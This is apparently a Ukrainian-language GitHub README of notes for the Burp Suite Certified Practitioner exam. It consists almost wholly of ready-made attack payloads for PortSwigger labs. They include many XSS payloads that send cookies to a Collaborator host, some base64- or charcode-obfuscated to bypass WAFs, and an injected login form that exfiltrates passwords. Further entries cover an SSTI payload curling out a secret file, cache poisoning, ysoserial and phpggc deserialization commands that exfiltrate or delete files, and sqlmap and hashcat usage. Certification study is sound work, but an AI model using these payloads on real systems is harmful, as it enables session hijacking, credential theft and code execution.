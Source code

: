 # Burp-exam-notes

>Тут я викладу матеріали які можуть допомогти під час складання екзамену Burp Suite Certified Practitioner Exam. Частину із них я взяв [тут](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner), але як виявилось на практиці не всі вони були готові, деякі варто було допиляти, а деякі змінити, що забрало подекуди багато часу, з огляду на те, що сам екзамен триває 4 години. Тому дуже важливо мати усі ін'єкції робочі та перевірені, і не гаяти часу на їх виправлення під час самого екзамену.
>Корисні підказки для складання екзамену від [PortSwigger](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam)

----

**+eval**
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//

``` 
>тут в base64 передається 
```
fetch("https://collaborator.oastify.com/?cookie="+btoa(document['cookie']))
```
**+eval URL encode**
>тут готова ін'єкція яка повертає відповідно на колаборатор кукі, просто передати script у exploit server
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?SearchTerm=%22%2Beval(atob(%22ZmV0Y2goImh0dHBzOi8vMmNmbTZlMmFpajVmZWQ3ZXl4ZTN3Mnc0dXYwbW9oYzYub2FzdGlmeS5jb20vP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22))}%2F%2F"
</script>
```
**Function`X$**
>-Function`X$ тут у нас ін'єкція із використанням динамічних шаблонів, вміст всередині ${...} виконується під час виконання шаблону.
```
"-Function`X${'document.location="https://collaborator.oastify.com/"+document.cookie'}```-"
```
>адаптована версія із використанням Function`X$, лише передати script у exploit server для отримання cookies
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?find=%22-Function`X${'document.location=%22https://collaborator.oastify.com/%22%2Bdocument.cookie'}```-%22"
</script>
```
**XSS+cookie**
```
<script>document.location='//collaborator.oastify.com/'+document.cookie</script>
```
```
"></select><script>document.location='http://collaborator.oastify.com/?cookie='+document.cookie</script>
```
```
\"-fetch('http://collaborator.oastify.com?c='+btoa(document.cookie))}//
```
```
<><img src=1 onerror="window.location='http://collaborator.oastify.com/c='+document.cookie">
```
```
<script>document.write('<img+src="http://collaborator.oastify.com?c='+document.cookie+'"+/>');</script>
```
```
</script><script>document.location="http://collaborator.oastify.com/?cookie="+document.cookie</script>
```
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?cookie='+document.cookie tabindex=1>#x';
</script>
```
>готова ін'єкція для query параметру, якщо такий вразливий
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
```
\';document.location=`http://collaborator.oastify.com/?cookie=`+document.cookie;//
```
>викликаємо XSS через id=x, якщо задати в посиланні #x
```
<xss id=x onfocus=document.location="http://collaborator.oastify.com/?cookie="+document.cookie tabindex=1>#x
```
>ULR Encoded:
```
%3Cxss%20id=x%20onfocus=document.location=%22http://collaborator.oastify.com/?cookie=%22+document.cookie%20tabindex=1%3E#x
```
>підбір tag та event (є така лабораторна робота у portswigger)
```
<svg><animatetransform onbegin=document.location='https://collaborator.oastify.com/?cookie='+document.cookie;>
```
>URL Encoded:
```
%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://collaborator.oastify.com/?cookie='+document.cookie;%3E
```
>викликаємо XSS через натискання жертвою кнопки x. Повний вигляд такий (для гарячої клавіші shift+X):
```
https://xxxxxx.net/?'accesskey='x'onclick='document.location="https://your-collaborator-url.com/?cookie="+document.cookie' 
```
**WAF**
>трохи спробуємо обійти WAF
```
</ScRiPt ><ScRiPt >document.write('<img src="http://collaborator.oastify.com?c='+document.cookie+'" />');</ScRiPt > 
```
>і передати його у ASCII (можна використовувати цей [сервіс](https://www.allmath.com/ascii-to-text.php), досить зручний)
```
</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
```
```
"-window["alert"](window["document"]["cookie"])-"
```
```
"-self["alert"](self["document"]["cookie"])-"
```
**Angular**
>тут у нас ін'єкція яка застосовується на сторінці із використанням AngularJS. 
constructor.constructor в Angular дає доступ до глобальної функції Function, яка дозволяє створювати і виконувати JavaScript-код у шаблоні. 
```
{{constructor.constructor('document.location="http://collaborator.oastify.com?c="+document.cookie')()}}
```
**XSS+input+cookie**
>ін'єкція для викрадення паролю і логіна користувача, який скористається формою для авторизації. Звісно, сторінка повинна мати вразливість до XSS.
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://collaborator.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
**Iframe**
>частково універсальні для exploit server
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:fetch(\'https://your-collaborator-url.com/\'+document.cookie)','*')">
</iframe>
```
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://your-collaborator-url.com?cookie=${document.cookie}`)>','*')">
</iframe>
```
**SSTI**
```
<%= system("curl https://your-collaborator-url.com/$(cat /home/carlos/secret)") %>
```
```
{{request.cookies.get('session')|urlize('https://your-collaborator-url.com/?cookie=')}}
```
**Web cache poisoning /js/geolocate.js**
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location%3d'https%3a//your-collaborator-url.oastify.com/%3fcookie%3d'%2bdocument.cookie%3b
```
----
**Deserialization**
>під руками повинні бути готові команди, із робочими шляхами де лежать у вас словники або команди які не потребують додаткових налаштувань чи втурчань, а лише зміни посилання на екзамен.
```
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar /path/to/file/ysoserial-all.jar CommonsCollections2 "curl https://collaborator.oastify.com -d@/home/carlos/secret" | gzip -c | base64 -w 0
```
```
/path/to/file/phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
```
**SQLMAP**
>тут шлях досить простий, копіюємо з Network із запиту на пошук "Copy as cURL", а далі лише забираємо curl і додаємо sqlmap -u.
>Зрештою, хто орієнтується із роботою sqlmap, вкурсі що до чого.
```
sqlmap -u 'cURL із Network' -p 'parametr' -batch --dbs --tables -T (тут вказати назву таблиці) --dump
```
**JWT**
```
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/Payload/jws_secret.txt --force
```
>і ще така штука із docker є, це лаба "JWT authentication bypass via algorithm confusion with no exposed key"
Майте собі піднятий docker і готовий образ, щоб не виправляли під час екзамену трабли із бібліотеками системи.
```
docker run --rm -it portswigger/sig2n JWT_1 JWT_2
```

